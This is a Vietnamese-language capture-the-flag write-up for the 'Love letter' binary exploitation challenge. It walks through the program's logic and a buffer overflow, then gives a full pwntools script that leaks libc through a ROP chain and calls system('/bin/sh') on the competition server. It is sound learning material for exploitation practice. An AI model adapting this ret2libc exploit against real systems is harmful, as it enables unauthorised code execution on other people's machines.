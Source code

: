 # Love letter
file: [main](https://github.com/wan-hyhty/CTFs_competition/blob/main/Securinet%20Valentine/source/main)  
#### Hình ảnh ida  
![image](https://user-images.githubusercontent.com/111769169/219405773-390fbd80-cfbc-4392-ad58-fdb303480368.png)  
![image](https://user-images.githubusercontent.com/111769169/219406127-96373797-4cb8-419b-b863-2bc2e2f3643a.png)  
![image](https://user-images.githubusercontent.com/111769169/219406236-27dd9ada-2005-47be-8986-92156db55fe8.png)  
#### Chương trình hoạt động  
> Đầu tiên chương trình nhảy vào hàm loveletter, ta chú ý chỗ while sau, đại loại chương trình sẽ cho chúng ta nhập vào biến v2 
> ![image](https://user-images.githubusercontent.com/111769169/219407499-01d77b66-b3e3-4e49-867a-aa3db9ab050b.png)
___  
> Sau đó ở hàm doubt, nếu ta trả lời khác 'Y' thì chương trình sẽ cho nhập size của v2, và chỉ dưới 250 kí tự, nên ban đầu em hơi lú chỗ này  
> ![image](https://user-images.githubusercontent.com/111769169/219408728-9fa83627-0b11-45f3-8ed8-f94373b5ac4f.png)  
> Sau khi được anh Trí hint thì ta thấy nếu ta trả lời là 'Y' (không thực hiện if) thì biến v2 có thể nhập tuỳ ý, nhưng lúc chạy chương trình thì giá trị v1 là 0 nên không thể nhập cho biến v2. Vấn đề bây giờ là làm sao để OW được v1.
___  
> ta để ý địa chỉ ở các biến thì thấy ![image](https://user-images.githubusercontent.com/111769169/219410942-4fa2201f-5b30-471e-961e-d70cfe2a3a05.png) ![image](https://user-images.githubusercontent.com/111769169/219411007-af0d3399-62ee-4086-baba-85bedb823985.png)  
> thì thấy nếu ta nhập đủ 6969byte ở biến v2 hàm loveletter thì có thể OW giá trị v1 hàm doubt, offset v2 và v1 là 244  
> Tuy nhiên do không có hàm thực thi system mà chỉ có /bin/sh lúc nà em chỉ đoán là libc (do ban đầu file có canary), và sau khi được anh Quý hint thì chắc chắn là leak libc 
___ 
> do em chỉ leak được libc còn lúc đưa hàm system thì lỗi EOF =))  
> Sau khi xin được file script thì chúng ta được như sau  
___
```python
from pwn import *

exe = ELF('main_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
    gdb.attach(p, gdbscript='''
    b*0x00000000004013ba

    b*0x0000000000401388
    
    c
    ''')
    input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.LOCAL:
    p = process(exe.path)
else:
    p = remote('loveletter.securinets.tn', 4040)

# GDB()
##################################
### Stage 1: Leak libc address ###
##################################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    pop_rdi, exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'],
    )
sa(b'now.\n', payload)
p.recvuntil(b'friend!\n')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
info("Libc base: " + hex(libc.address))

##########################
### Stage 2: Get shell ###
##########################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    0x000000000040101a,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym['system']
    )
sa(b'now.\n', payload)

p.interactive()
```
# Phân tích script  
![image](https://user-images.githubusercontent.com/111769169/219415578-c22f2804-97ad-4b0b-9fbb-75ab0d46e296.png)  
![image](https://user-images.githubusercontent.com/111769169/219414568-52ec4c12-0944-4f7b-9124-39e526a8e5fa.png)  
> ta input đủ 6969 để OW biến v1 hàm doubt  
___
![image](https://user-images.githubusercontent.com/111769169/219416198-056c37cc-4afb-4c8b-8181-26ac29d58353.png) 
![image](https://user-images.githubusercontent.com/111769169/219416439-8f18a7a6-20c0-4bb9-8241-c6f351c09cf2.png)  
> ta nhập 264byte để OW đến địa chỉ rip (em đã tìm offset rip)   
> ![image](https://user-images.githubusercontent.com/111769169/219416972-707cd8d3-ffbb-4b35-a30b-a7fe2d76feb1.png)  
> Sau đó trong flat() thì set thanh rip = là got@put và thực thì hàm put, để leak được file libc, sau đó quay về main
___
![image](https://user-images.githubusercontent.com/111769169/219417932-fa686178-6ecd-49ca-98e9-90ba49b03023.png)
> tính base của libc
___
> ta thực hiện lại lần hai chương trình và đẩy hàm system vào
![image](https://user-images.githubusercontent.com/111769169/219418602-1513688e-6841-4c30-bee9-fced04860c5d.png)
> ở đây địa 0x40101a được thêm vào để khắc phục lỗi xmm1 (lúc em làm thì em hum có dòng này =)))
> em đã thử không thêm địa chỉ này mà nhảy sâu vào hàm system nhưng vẫn không khắc phục được lỗi xmm1
___
#### Tổng kết sai sót
Không theo dõi thông báo giải và lúc được biết có file mới thì vẫn giải trên file cũ. Kết quả là file libc khác với server  
Cần cải thiện quá trình debug.  
#### Kiến thức mới
Thay vì ta set các địa chỉ như này  
![image](https://user-images.githubusercontent.com/111769169/219421279-d0561928-8d27-4c5b-8454-32e98c1eb4d5.png)  
___
Thì hàm flat() đại loại sẽ pack() các dữ liệu mình vào thay vì p64()
![image](https://user-images.githubusercontent.com/111769169/219421953-30160aa1-251b-46ee-a5fc-f375dab9b0b7.png)

# Gift shellcode
file: [giftshellcode](https://github.com/wan-hyhty/CTFs_competition/blob/main/Securinet%20Valentine/source/giftshell)

